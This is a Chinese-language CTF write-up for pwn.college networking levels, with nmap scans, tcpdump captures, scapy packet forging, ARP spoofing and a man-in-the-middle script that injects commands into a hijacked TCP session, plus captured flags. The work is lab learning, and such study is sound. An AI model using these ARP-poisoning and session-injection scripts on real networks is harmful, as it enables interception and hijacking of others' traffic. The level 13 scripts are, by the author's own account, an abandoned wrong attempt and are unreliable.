







## level1 Connect to a remote host
```
nc 10.0.0.3 31337
```
## level2 Listen for a connection from a remote host
```
nc -l 31337
```
## level3 Find and connect to a remote host
```
# 扫描端口nmap -p 31337 10.0.0.0/24
root@ip-10-0-0-2:~# nmap -p 31337 10.0.0.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-15 22:54 UTC
Nmap scan report for 10.0.0.47
Host is up (0.000090s latency).

PORT      STATE SERVICE
31337/tcp open  Elite
MAC Address: 1A:78:B6:5A:08:A8 (Unknown)

Nmap scan report for 10.0.0.2
Host is up (0.000058s latency).

PORT      STATE  SERVICE
31337/tcp closed Elite

Nmap done: 256 IP addresses (2 hosts up) scanned in 28.46 seconds
root@ip-10-0-0-2:~# nc 10.0.0.2 31337
root@ip-10-0-0-2:~# nc 10.0.0.47 31337
# 出现flag
```
## level4 Find and connect to a remote host on a large network
```
root@ip-10-0-0-2:~# nmap -p 31337 -T5 10.0.0.0/16
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-15 23:44 UTC
Nmap scan report for 10.0.0.2
Host is up (0.000053s latency).

PORT      STATE  SERVICE
31337/tcp closed Elite

Nmap scan report for 10.0.211.92
Host is up (0.000093s latency).

PORT      STATE SERVICE
31337/tcp open  Elite
MAC Address: D6:5F:9A:28:AE:26 (Unknown)

Nmap done: 65536 IP addresses (2 hosts up) scanned in 2583.60 seconds

# 这个我没啥好办法，感觉时间很长啊。
nc 10.0.211.92 31337
```
## level5 Monitor traffic from a remote host
```
tcpdump -i any port 31337
# 先这样看一下，发现包是重复的，其中有一个数据包长度为58，推测有用
tcpdump -i any port 31337 -X
# 这会输出具体的十六进制和ascii码
# 然后就得到了具体的包了
01:10:28.660067 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.50004: Flags [P.], seq 1:59, ack 60, win 509, options [nop,nop,TS val 4114781018 ecr 1191307187], length 58
        0x0000:  4500 006e 4d18 4000 4006 d96d 0a00 0002  E..nM.@.@..m....
        0x0010:  0a00 0003 7a69 c354 b6ab 89fa 61ea 4259  ....zi.T....a.BY
        0x0020:  8018 01fd c37f 0000 0101 080a f542 935a  .............B.Z
        0x0030:  4701 e7b3 7077 6e2e 636f 6c6c 6567 657b  G...pwn.college{
        0x0040:  5934 4a50 5173 526d 4367 4e71 636a 6e69  Y4JPQsRmCgNqcjni
        0x0050:  6532 3878 7775 4961 5755 4e2e 644e 6a4e  e28xwuIaWUN.dNjN
        0x0060:  7a4d 444c 3251 6a4d 794d 7a57 7d0a       zMDL2QjMyMzW}.
```
## level6 Monitor slow traffic from a remote host
```
# 老规矩先看一下
tcpdump -i any port 31337
# 这个题也比较水了，就是每个包只发送其中的一位，然后你等58个包，就凑齐了。
tcpdump -i any port 31337 and src 10.0.0.2 and dst 10.0.0.3 and greater 1 -X
```
然后输出大概是这样的
```
01:32:10.535829 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 5:6, ack 6, win 510, options [nop,nop,TS val 4116082894 ecr 1192609080], length 1
        0x0000:  4500 0035 9482 4000 4006 923c 0a00 0002  E..5..@.@..<....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8af feb5 c987  ....zi.j........
        0x0020:  8018 01fe eab4 0000 0101 080a f556 70ce  .............Vp.
        0x0030:  4715 c538 63                             G..8c
01:32:11.537097 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 6:7, ack 7, win 510, options [nop,nop,TS val 4116083896 ecr 1192610081], length 1
        0x0000:  4500 0035 9483 4000 4006 923b 0a00 0002  E..5..@.@..;....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b0 feb5 c988  ....zi.j........
        0x0020:  8018 01fe d6df 0000 0101 080a f556 74b8  .............Vt.
        0x0030:  4715 c921 6f                             G..!o
01:32:12.538387 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 7:8, ack 8, win 510, options [nop,nop,TS val 4116084897 ecr 1192611083], length 1
        0x0000:  4500 0035 9484 4000 4006 923a 0a00 0002  E..5..@.@..:....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b1 feb5 c989  ....zi.j........
        0x0020:  8018 01fe d20a 0000 0101 080a f556 78a1  .............Vx.
        0x0030:  4715 cd0b 6c                             G...l
01:32:13.539649 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 8:9, ack 9, win 510, options [nop,nop,TS val 4116085898 ecr 1192612084], length 1
        0x0000:  4500 0035 9485 4000 4006 9239 0a00 0002  E..5..@.@..9....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b2 feb5 c98a  ....zi.j........
        0x0020:  8018 01fe ca36 0000 0101 080a f556 7c8a  .....6.......V|.
        0x0030:  4715 d0f4 6c                             G...l
01:32:14.540780 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 9:10, ack 10, win 510, options [nop,nop,TS val 4116086899 ecr 1192613085], length 1
        0x0000:  4500 0035 9486 4000 4006 9238 0a00 0002  E..5..@.@..8....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b3 feb5 c98b  ....zi.j........
        0x0020:  8018 01fe c962 0000 0101 080a f556 8073  .....b.......V.s
        0x0030:  4715 d4dd 65                             G...e
01:32:15.541382 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 10:11, ack 11, win 510, options [nop,nop,TS val 4116087900 ecr 1192614086], length 1
        0x0000:  4500 0035 9487 4000 4006 9237 0a00 0002  E..5..@.@..7....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b4 feb5 c98c  ....zi.j........
        0x0020:  8018 01fe bf8e 0000 0101 080a f556 845c  .............V.\
        0x0030:  4715 d8c6 67                             G...g
01:32:16.542597 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 11:12, ack 12, win 510, options [nop,nop,TS val 4116088901 ecr 1192615087], length 1
        0x0000:  4500 0035 9488 4000 4006 9236 0a00 0002  E..5..@.@..6....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b5 feb5 c98d  ....zi.j........
        0x0020:  8018 01fe b9ba 0000 0101 080a f556 8845  .............V.E
        0x0030:  4715 dcaf 65                             G...e
```
我们就把最后一位拼起来就行了，反正这一步大概有点儿烦，可以写脚本，也可以自己手动复制:(
```
# 好吧，我脚本没写对，自己手动复制到，尼玛
pwn.college{kNJHOFI1VRpp7QOATsbMSjGQiQp.dRjNzMDL2QjMyMzW}
```

## level7 Hijack traffic from a remote host by configuring your network interface
```
tcpdump -i any
# 发现10.0.0.4一直在发送请求。这时候我骗它应该就行了。
ip addr add 10.0.0.2/8 dev eth0
```
然后发现了这些包
```
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
15:07:21.562729 eth0  B   ARP, Request who-has 10.0.0.2 tell 10.0.0.4, length 28
15:07:21.562752 eth0  Out ARP, Reply 10.0.0.2 is-at fa:9a:ce:e8:ef:b2 (oui Unknown), length 28
15:07:21.562833 eth0  In  IP 10.0.0.4.37984 > 10.0.0.2.31337: Flags [S], seq 1279607758, win 64240, options [mss 1460,sackOK,TS val 1986706165 ecr 0,nop,wscale 7], length 0
15:07:21.562843 eth0  Out IP 10.0.0.2.31337 > 10.0.0.4.37984: Flags [R.], seq 0, ack 1279607759, win 0, length 0
15:07:21.639815 lo    In  IP localhost.53883 > 127.0.0.11.domain: 51406+ PTR? 2.0.0.10.in-addr.arpa. (39)
15:07:21.639846 lo    In  IP 127.0.0.11 > localhost: ICMP 127.0.0.11 udp port domain unreachable, length 75
15:07:21.639911 lo    In  IP localhost.39242 > 127.0.0.11.domain: 51406+ PTR? 2.0.0.10.in-addr.arpa. (39)
15:07:21.639923 lo    In  IP 127.0.0.11 > localhost: ICMP 127.0.0.11 udp port domain unreachable, length 75
15:07:21.640042 lo    In  IP localhost.46035 > 127.0.0.11.domain: 13917+ PTR? 4.0.0.10.in-addr.arpa. (39)
15:07:21.640052 lo    In  IP 127.0.0.11 > localhost: ICMP 127.0.0.11 udp port domain unreachable, length 75
15:07:21.640103 lo    In  IP localhost.50224 > 127.0.0.11.domain: 13917+ PTR? 4.0.0.10.in-addr.arpa. (39)
```
这个R说明reset位：​​​​​​ 表示TCP连接中出现异常必须强制断开连接。例如，一个没有被使用的端口即使发来了连接请求，也无法通信。

然后监听即可
```
nc -l 31337
```
*这题看了讲解才会，就卡在不知道怎么看这个标志位上，果然知识处处是盲区*

然后在你监听以后，就会变成PUSH标志位。
## level8 Manually send an Ethernet packet
主要是使用scapy
```
>>> sendp(Ether(src="4a:b3:c7:c5:08:7d",dst="ff:ff:ff:ff:ff:ff",type=0xFFFF),iface="eth0")
.
Sent 1 packets.

pwn.college{wl9Wr84duLuF_XsCsoo6EiqhnU3.dZjNzMDL2QjMyMzW}
```
## level9 Manually send an Internet Protocol packet
发IP了
```
>>> sendp(Ether(src="52:bc:a3:08:14:d1",dst="ff:ff:ff:ff:ff:ff", type=0x0800) / IP(proto=0xFF, src="127.0.0.1",dst="10.0.0.3"), iface="eth0")
.
Sent 1 packets.

pwn.college{c5HrfavanBMm_0po-E47NuCoY2J.ddjNzMDL2QjMyMzW}

```
## level10 Manually send a Transmission Control Protocol packet
```
>>> sendp(Ether(src="12:af:41:92:01:6f",dst="ff:ff:ff:ff:ff:ff", type=0x0800) / IP(src="127.0.0.1", dst="10.0.0.3", proto=0x06) / TCP(sport=31337, dport=31337, seq=31337, ack=31337, flags="APRSF"),
...: iface="eth0")
.
Sent 1 packets.

pwn.college{gSJcnHgB4dNz17jCCuEduVjMEF_.dhjNzMDL2QjMyMzW}


```
## level11 Manually perform a Transmission Control Protocol handshake
```
sendp(Ether(src=get_if_hwaddr("eth0"),dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31337, flags="S"),iface="eth0")

sendp(Ether(src=get_if_hwaddr("eth0"),dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, ack=1235161237, seq=31338,flags="A"),iface="eth0")

pwn.college{cMG0JWm3rTQmJHtfC-JNorRv6Ef.dljNzMDL2QjMyMzW}
```
多么美妙的一张图

## level12 Manually send an Address Resolution Protocol packet
```
>>> sendp(Ether(dst="ff:ff:ff:ff:ff:ff", src=get_if_hwaddr("eth0")) / ARP(op="is-at", hwsrc=get_if_h
...: waddr("eth0"), psrc="10.0.0.2", hwdst="ff:ff:ff:ff:ff:ff", pdst="10.0.0.3"), iface="eth0")
.
Sent 1 packets.

pwn.college{0mowkGco5uatE6V9v8I1lPZ2xHa.dBzNzMDL2QjMyMzW}
```
## level13 Hijack traffic from a remote host using ARP
先观察一波
```
root@ip-10-0-0-3:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether e6:19:83:95:20:c7 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.0.0.3/16 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::e419:83ff:fe95:20c7/64 scope link
       valid_lft forever preferred_lft forever
root@ip-10-0-0-3:~#
```
很尬，就自己瞎做把
```
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc="e6:19:83:95:20:c7", psrc="10.0.0.3", pdst="10.0.0.4")
remote_mac = arp_response[0][1].hwsrc
```

```
tcp_redirect = Ether(src=remote_mac, dst="e6:19:83:95:20:c7") / IP(src="10.0.0.4", dst="10.0.0.3") / TCP(sport=31337, dport=31337, flags="PA", seq=123456, ack=0)
```

```
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc="e6:19:83:95:20:c7", psrc="10.0.0.3", pdst="10.0.0.2")
remote_mac = arp_response[0][1].hwsrc
```

```
tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.4", dst=local_ip) / TCP(sport=31338, dport=31337, flags="PA", seq=123456, ack=0)
```

看起来，又是建立链接？
```
sendp(Ether(src=get_if_hwaddr("eth0"),dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31337, flags="A"),iface="eth0")
```
**过程都写完了，可以写脚本了**
```10.0.0.4
from scapy.all import *

# 获取本地接口的 MAC 和 IP 地址
local_mac = get_if_hwaddr("eth0")
local_ip = get_if_addr("eth0")

# 构造 ARP 请求数据包，欺骗目标主机
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=local_mac, psrc=local_ip, pdst="10.0.0.4")

# 发送 ARP 请求数据包，并获取目标主机的 MAC 地址
arp_response = srp(arp_request, timeout=2, iface="eth0", verbose=False)[0]
remote_mac = arp_response[0][1].hwsrc

# 构造 TCP 重定向数据包，将流量重定向到本地主机
tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.4", dst=local_ip) / TCP(sport=31337, dport=31337, flags="PA", seq=123456, ack=0)

# 发送 TCP 重定向数据包，劫持流量
sendp(tcp_redirect, iface="eth0")
```

```10.0.0.2
from scapy.all import *

# 获取本地接口的 MAC 和 IP 地址
local_mac = get_if_hwaddr("eth0")
local_ip = get_if_addr("eth0")

# 构造 ARP 请求数据包，欺骗目标主机
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc=local_mac, psrc=local_ip, pdst="10.0.0.2")

# 发送 ARP 请求数据包，并获取目标主机的 MAC 地址
arp_response = srp(arp_request, timeout=2, iface="eth0", verbose=False)[0]
remote_mac = arp_response[0][1].hwsrc

# 构造 TCP 重定向数据包，将流量重定向到本地主机
tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.2", dst=local_ip) / TCP(sport=31337, dport=31337, flags="PA", seq=123456, ack=0)

# 发送 TCP 重定向数据包，劫持流量
sendp(tcp_redirect, iface="eth0")
```
**好吧，整了一大堆，然后发现搞错了，没那么复杂，G。。。**

正确解答如下：
```
root@ip-10-0-0-3:~# arping 10.0.0.4
ARPING 10.0.0.4
42 bytes from ce:b6:65:76:0a:83 (10.0.0.4): index=0 time=17.107 usec
42 bytes from ce:b6:65:76:0a:83 (10.0.0.4): index=1 time=13.761 usec
^C
--- 10.0.0.4 statistics ---
2 packets transmitted, 2 packets received,   0% unanswered (0 extra)
rtt min/avg/max/std-dev = 0.014/0.015/0.017/0.002 ms
root@ip-10-0-0-3:~#

sendp(Ether(src=get_if_hwaddr("eth0"),dst="ce:b6:65:76:0a:83") / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),psrc="10.0.0.2",hwdst="ce:b6:65:76:0a:83",pdst="10.0.0.4"),iface="eth0")

pwn.college{cNTaa8AjxVE-lSXY9DgEeXxNMHz.dFzNzMDL2QjMyMzW}
```

## level14 Man-in-the-middle traffic between two remote hosts and inject extra traffic

从讲解来看，这个题的核心是需要加入对话，而不仅仅是监听，因为对话中有一次性密钥，仅仅监听并不管用，重点是抓住窗口期发送包含有FLAG的包。

直接写个脚本
```
from scapy.all import *

sendp(Ether(src=get_if_hwaddr("eth0")) / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),
            psrc="10.0.0.3",pdst="10.0.0.4"),iface="eth0") #tell 10.0.0.4，where 10.0.0.3 it is
sendp(Ether(src=get_if_hwaddr("eth0")) / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),
            psrc="10.0.0.4",pdst="10.0.0.3"),iface="eth0") #tell 10.0.0.3，where 10.0.0.4 it is

packet_data = {
    'key': '',
    'dst': '',
    'src': '',
    'ipdst': '',
    'ipsrc': '',
    'ipflags': '',
    'sport': 0,
    'dport': 31337,
    'flags': '',
    'seq': 0,
    'ack': 0
}

def CallBack(packet):
    if packet.haslayer('TCP'):
        tcp = packet['TCP']
        ip = packet['IP']
        ether = packet['Ethernet']
        load = tcp.load if hasattr(tcp, 'load') else b''

        if ip.src == '10.0.0.4' and load != b'ECHO\n':
            packet_data['key'] = load


        if ip.src == '10.0.0.3' and load == b'COMMANDS:\nECHO\nFLAG\nCOMMAND:\n':
            print("WARNING!!")

            packet_data.update({
                'ipdst': ip.src,
                'ipsrc': ip.dst,
                'flags': 'PA',
                'ipflags': ip.flags,
                'dst': ether.src,
                'src': ether.dst,
                'dport': tcp.sport,
                'sport': tcp.dport,
                'seq': tcp.ack,
                'ack': tcp.seq + 29
            })

            raw_pkt = Raw(load='FLAG\n')
            (Ether(src=packet_data['src'], dst=packet_data['dst']) /
             IP(src=packet_data['ipsrc'], dst=packet_data['ipdst'], flags=packet_data['ipflags']) /
             TCP(dport=packet_data['dport'], sport=packet_data['sport'], seq=packet_data['seq'], ack=packet_data['ack'], flags=packet_data['flags']) /
             raw_pkt).display()

            sendp(Ether(src=packet_data['src'], dst=packet_data['dst']) /
                  IP(src=packet_data['ipsrc'], dst=packet_data['ipdst'], flags=packet_data['ipflags']) /
                  TCP(dport=packet_data['dport'], sport=packet_data['sport'], seq=packet_data['seq'], ack=packet_data['ack'], flags=packet_data['flags']) /
                  raw_pkt, iface="eth0")

sniff(filter="tcp", prn=CallBack, iface='eth0', count=100)


```
然后顺利拿到flag
```
pwn.college{A3pb7kfH8On2sOV2_hSlPGWG_P8.dJzNzMDL2QjMyMzW}
```


**碎碎念：这个部分其实不太难，重点是学会scapy即可，但是诡异的地方在于必须使用tmux，好像这样才能在一个父线程之下，不然你在另一个shell里面使用python脚本，这个shell里面的tcpdump抓不到东西。这曾经困扰了我很久，别的就没啥了。**